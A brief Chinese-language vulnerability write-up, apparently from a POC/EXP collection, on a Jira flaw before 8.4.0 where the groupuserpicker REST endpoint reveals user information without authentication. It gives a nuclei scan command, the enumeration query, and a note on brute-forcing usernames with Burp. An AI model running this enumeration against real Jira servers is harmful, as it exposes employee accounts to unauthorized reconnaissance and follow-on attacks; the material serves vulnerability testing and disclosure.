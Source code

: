 ## 漏洞概述

Atlassian Jira 8.4.0之前版本`/rest/api/latest/groupuserpicker`接口允许未授权查询员工信息，攻击者可以通过爆破用户名名单等方法获取用户信息

## 影响范围  

```http
7.12< Jira < 8.4.0
```

## POC

```bash
nuclei -tags jira -t /cves -l urls.txt
```

## EXP

```bash
/rest/api/latest/groupuserpicker?query=admin
#返回的json中没有数据的话admin不存在，有用户相关数据则admin用户存在
#然后直接用Burp爆破用户即可
```

